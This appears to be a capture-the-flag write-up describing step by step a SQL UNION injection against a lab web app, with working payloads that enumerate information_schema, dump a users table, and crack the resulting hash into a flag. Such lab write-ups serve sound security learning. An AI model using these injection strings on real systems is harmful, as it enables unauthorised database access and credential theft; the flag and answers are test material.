 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
* Input is data search using ID's, try tentative search with integer and then without

### Step 2
* Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
* Attack
1. Confirm number off return columns and data types
> * trial and error: 
> _1 = 1 or 1 ORDER BY 1_...
> _UNION SELECT ‘a’,NULL_...

2. Find tables within current database
  _1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_

  **users**

3. Find columns within desired table
  _1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_

  **user_id,first_name,last_name,town,country,planet,Commentaire,countersign**

4. Find data
  _1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_

  **5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**

  _MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_

  _toLower -> FortyTwo => fortytwo_

  _Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
